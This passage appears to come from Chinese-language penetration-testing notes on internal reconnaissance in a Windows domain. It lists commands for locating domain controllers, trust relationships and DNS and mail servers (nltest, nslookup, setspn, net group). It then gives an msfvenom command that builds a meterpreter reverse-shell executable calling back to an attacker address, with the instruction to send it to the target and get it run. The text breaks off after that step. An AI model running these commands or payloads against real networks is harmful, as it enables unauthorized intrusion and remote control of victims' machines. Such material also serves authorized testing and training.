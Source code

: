### Other

```bash
#查看域控制器的机器名
nltest /DCLIST:MINGY
#查看域内的主域控，仅限win2008及之后的系统
netdom query pdc
#查看域控主机名
nslookup -type=srv _ldap._tcp
#查看域内信任关系
nltest /domain_trusts
#查看域内邮件服务器
nslookup -q=mx mingy.com
#查看域内DNS服务器
nslookup -q=ns mingy.com
```

### 定位域控

```bash
#ipconfig
ipconfig /all
#查询dns解析记录
nslookup -type=all _ldap._tcp.dc._msdcs.mingy.com
#spn扫描
在SPN扫描结果中可以通过如下内容，来进行域控的定位。
setspn -q */*
setspn -T mingy.com -q */*
CN=DC,OU=Domain Controllers,DC=mingy,DC=com
#net group
net group "domain controllers" /domain

#端口识别
#端口：389
#服务：LDAP、ILS
#说明：轻型目录访问协议和NetMeeting Internet Locator Server共用这一端口。
#端口：53
#服务：Domain Name Server（DNS）
#说明：53端口为DNS(Domain Name Server，域名服务器)服务器所开放，主要用于域名解析，DNS服务在NT系统中使用的最为广泛。通过DNS服务器可以实现域名与IP地址之间的转换，只要记住域名就可以快速访问网站。
```

## Metasploit内网信息收集

### 反弹shell

- 生成payload

  ```bash
  msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.227 lport=5555 -f exe -o xx.exe
  ```

  将生成的payload发送给目标机器并让其执行
